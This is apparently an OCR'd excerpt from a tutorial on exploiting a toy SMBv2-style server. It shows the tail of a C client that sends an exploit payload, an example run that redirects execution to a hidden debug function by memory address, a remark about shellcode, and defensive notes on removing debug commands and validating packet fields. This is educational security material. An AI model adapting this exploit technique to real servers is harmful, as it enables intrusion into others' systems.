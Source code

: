    if (send(sock, payload, payloadLen, 0) < 0) {

       perror("send payload");

       close(sock);

       return 1;

   }



   printf("[SMBv2-Client] Exploit payload sent. Check server for results.\n");



   close(sock);

   return 0;

}



Example “Exploit” Run



# Suppose you reversed the server binary (via Ghidra) and discovered that

# secretDebugFunction is located at address 0x7ffff7fd4000 (completely hypothetical).

./patched_smbv2_client 127.0.0.1 4444 7ffff7fd4000



If the server has no modern mitigations (e.g., no ASLR, no stack canaries, etc.) and the function is indeed at that address, it might jump right into secretDebugFunction()—or into your shellcode in a real attack scenario.



Final Notes

	1.	Real SMBv2 Is Much More Complex

The real SMBv2 protocol involves numerous commands, dialect negotiation, session setup, signing, encryption, etc. The chance of an exploit like this in unmodified SMBv2 is low if the implementation follows security best practices. However, the principle stands: any hidden commands or insufficient parsing can lead to severe vulnerabilities.

	2.	Insecure Designs Are Still Possible

Even large protocols can have corner cases, debugging backdoors, or insufficient bounds checks introduced over time. Attackers often look for these exact mistakes.

	3.	Defense

	•	Remove dead code and debug commands before release.

	•	Validate all packet fields carefully (lengths, commands, offsets).
